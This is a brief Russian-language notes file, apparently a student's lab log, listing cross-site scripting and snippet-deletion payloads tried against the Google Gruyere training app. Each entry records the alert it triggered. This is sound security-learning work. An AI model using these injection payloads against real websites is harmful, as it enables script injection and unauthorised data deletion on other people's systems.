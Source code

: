 # Payloads для gruyere

## Payload 1

`https://google-gruyere.appspot.com/481645647050420153731399784541443008317/%3Cbody%20onload=alert(/lollololo/.source)%3E` <br>
Вставил `<body onload=alert(/XSS/.source)>` в url, вылез алерт с текстом "lollololo"

## Payload 2

`(1') <a ONMOUSEOVER="alert(1)" href="#">read this!</a>`<br>
Вставил в поле добавления сниппета, при наведении вылез алерт "1"

## Payload 3

`deletesnippet?index=0`<br>
Вставил в url и кароче "index=номер" обозначает, какой сниппет удалить

## Payload 4

`https://google-gruyere.appspot.com/465348762713896480568835336007440892404/background-image:%20url(%22data:image/jpg;base64,%3C//style%3E%3Csvg/onload=alert(document.domain)%3E%22);%20background-color:%20#cccccc;`

Вставил `background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>"); background-color: #cccccc;` в url и вылезла 404 ошибка с алертом

## Payload 5

Убрал `maxleght=16` у поля логин при регистраци, зарегал юзера с логином `<script>alert('попа')</script>` и вошёл в аккаунт. Вылез этот алерт.

## Payload 5

Вставил `red'onmouseover='alert(1)` в цвет в профиле, алерт выводится при наведении мышки
